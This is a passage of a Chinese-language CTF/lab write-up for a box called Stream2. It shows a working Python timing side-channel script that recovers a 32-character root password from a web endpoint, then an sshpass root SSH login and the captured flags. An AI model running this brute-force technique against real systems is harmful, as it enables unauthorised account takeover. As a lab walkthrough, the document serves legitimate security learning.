可以这个接口：接收 POST 参数 `key`​，正确返回 `success`​，错误返回 `fail`​。结合 motd 的 root password 长度提示，判断这个 `key` 就是 root 密码或等价凭据。

然后再靶机中也没有找到什么有用信息，然后 ai 告诉说可能是 timing leak 按位恢复，先测几组错误 key：

```python
curl -sS -w 'time=%{time_total}\n' -X POST http://127.0.0.1:5000/ -d 'key=00000000000000000000000000000000'
curl -s -w 'time=%{time_total}\n' -X POST http://127.0.0.1:5000/ -d 'key=10000000000000000000000000000000'
curl -s -w 'time=%{time_total}\n' -X POST http://127.0.0.1:5000/ -d 'key=20000000000000000000000000000000'
```

结果发现某些前缀明显更慢，而且每多猜对一位，响应时间大约增加 `10ms`。这就是 timing leak 的典型特征。

然后写个 timing 脚本恢复 32 位 key 的脚本。脚本每一轮固定当前已知前缀，枚举下一位，后面用 `0` 补满 32 位。为了降低网络抖动影响，每个字符测多次并取中位数。

```python
#!/usr/bin/env python3
import http.client
import random
import statistics
import time
import urllib.parse

HOST = "127.0.0.1"
PORT = 5000
CHARS = "0123456789abcdef"
LENGTH = 32
REPS = 3


def check(key):
    body = urllib.parse.urlencode({"key": key})
    start = time.perf_counter_ns()
    conn = http.client.HTTPConnection(HOST, PORT, timeout=5)
    conn.request(
        "POST",
        "/",
        body=body,
        headers={"Content-Type": "application/x-www-form-urlencoded"},
    )
    resp = conn.getresponse()
    data = resp.read(100).decode("utf-8", "replace")
    conn.close()
    cost = (time.perf_counter_ns() - start) / 1e6
    return cost, resp.status, data


prefix = ""

while len(prefix) < LENGTH:
    pos = len(prefix)
    pad = "0" * (LENGTH - pos - 1)
    scores = {c: [] for c in CHARS}
    order = list(CHARS) * REPS
    random.shuffle(order)

    for c in order:
        key = prefix + c + pad
        cost, status, data = check(key)
        if status == 200:
            print("[+] FOUND:", key)
            raise SystemExit
        scores[c].append(cost)

    rows = []
    for c in CHARS:
        rows.append((statistics.median(scores[c]), c))
    rows.sort(reverse=True)

    best_time, best_char = rows[0]
    second_time, second_char = rows[1]
    margin = best_time - second_time

    print(
        f"[{pos:02d}] choose={best_char} "
        f"prefix={prefix + best_char} "
        f"median={best_time:.2f}ms "
        f"margin={margin:.2f}ms "
        f"top={[(c, round(t, 2)) for t, c in rows[:4]]}",
        flush=True,
    )

    if margin < 4:
        print("[!] margin too small, increase REPS and retry this position")
        REPS += 2
        continue

    prefix += best_char

print("[*] candidate:", prefix)
cost, status, data = check(prefix)
print(f"[*] verify: status={status}, body={data!r}, time={cost:.2f}ms")
```



最后爆破出来是：`2c40dada4efc0b72dedcacc61106d16b`。

直接 SSH 登录 root。

```python
(base) ┌──(root㉿kali)-[~]
└─# sshpass -p '2c40dada4efc0b72dedcacc61106d16b' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@192.168.56.183
Warning: Permanently added '192.168.56.183' (ED25519) to the list of known hosts.
root password is 32 characters
root@Stream2:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
root@Stream2:~# ls
root.txt
root@Stream2:~# cat root.txt 
flag{root-bcad4be508deaa843222a60bb8029a83}
root@Stream2:~# 
```

flag：

> flag{user-de95c47bbdc6b8dccd0fd0eb074b717a}  
> flag{root-bcad4be508deaa843222a60bb8029a83}


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/stream2/  

